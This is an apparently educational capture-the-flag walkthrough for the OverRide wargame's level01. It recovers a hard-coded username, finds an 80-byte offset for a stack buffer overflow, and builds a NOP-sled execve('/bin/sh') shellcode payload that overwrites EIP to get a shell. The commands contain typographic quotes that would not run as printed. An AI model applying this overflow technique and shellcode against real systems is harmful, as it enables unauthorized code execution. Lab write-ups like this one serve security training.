 # level01 

level01 is very similar to many Rainfall levels. 

We have three functions: `main`, `verify_user_name`, `verify_user_pass`. 

The program looks like a simple login interface. 
First, we enter our username, then our password. 
To find the username, just look in the `verify_user_name` function to find it: “dat_wil.”

For the password it's more complex. In fact, we see the following condition: 
```c
if ((local_14 == 0) || (local_14 != 0)) 
{
      puts(“nope, incorrect password...”);
      iVar1 = 1;
}
```
Above all, even if you enter the right password, there's no way to execute a shell or get the token for the next level. 
One thing we can do, however, is overwrite the EIP. 
To do this, simply find our offset by entering a buffer overflow pattern when entering the password: 
```
Starting program: /home/users/level01/level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```
And we get it : 80.

All we need to do is export our shellcode to our :
```bash
export SHELLCODE=$(python -c 'print “\x90”*1000 + “\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80”'))
```

Once this is done, we need to take an address in the middle of our nopslide:
```
(gdb) x/10s *((char **)environ)
0xffffd4e0: “SHELLCODE=\220\220\220\220\220 [...]”
[...]
0xffffd738: “\220\220\220\220\220\220\220 [...]"
^^^^^^^^^^
```
Here I've chosen the following address: 0xffffd738.
And we have everything we need to place our order:
```bash
level01@OverRide:~$ python -c 'print “dat_wil” + “\n” + 80*“A” + “\xff\xff\xd7\x38”[::-1]' > /tmp/1
level01@OverRide:~$ cat /tmp/1 - | /home/users/level01/level01
```

That's it!
